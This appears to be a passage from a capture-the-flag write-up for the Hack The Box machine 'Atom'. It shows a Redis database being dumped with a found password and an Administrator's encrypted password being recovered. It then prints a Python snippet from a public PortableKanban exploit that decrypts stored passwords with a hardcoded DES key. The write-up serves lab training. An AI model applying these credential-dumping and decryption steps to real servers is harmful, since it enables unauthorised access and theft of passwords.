 There is one database here:

![](https://i.imgur.com/MumupVR.png)

I will select the database using `SELECT 0` and list Key inside using `KEYS *`:

![](https://i.imgur.com/p9uG33b.png)

I can dump each key but it is not pretty to look at:

![](https://i.imgur.com/AXovGHT.png)

#### redis-dump

**redis-dump** will help me to dump redis data in a prettier way.

I first download redis dump using the command below:

`npm install redis-dump -g`

Now I will forward the data dump to **database0.txt**

`redis-dump -h atom.htb -p 6379 -a kidvscat_yes_kidvscat > database0.txt`

![](https://i.imgur.com/0Dczpbg.png)

Looking into the dump file, it reveals username and hashed password; **Administrator**:**Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi**

```
'{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}'
```

### Hash Cracking

After failing on identifying hash type, I moved on to more enumeration to find out what kind of encryption algorithm it is using.

On `\Users\jason\Downloads`. I see a directory name **PortableKanban**:


![](https://i.imgur.com/FvoE2wK.png)

**PortableKanban** is a tool used to store passwords in an encrypted fashion it seems like there is a way of retrieving encrypted password:

![](https://i.imgur.com/LA4635V.png)

Looking into the exploit python script, it shows that encryption is done using base64 and des encryption with a key: **7ly6UznJ**

```python
import json
import base64
from des import * #python3 -m pip install des
import sys

def decode(hash):

    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')
for user in data["Users"]:
    print("{}:{}".format(user["Name"],decode(user["EncryptedPassword"])))
```
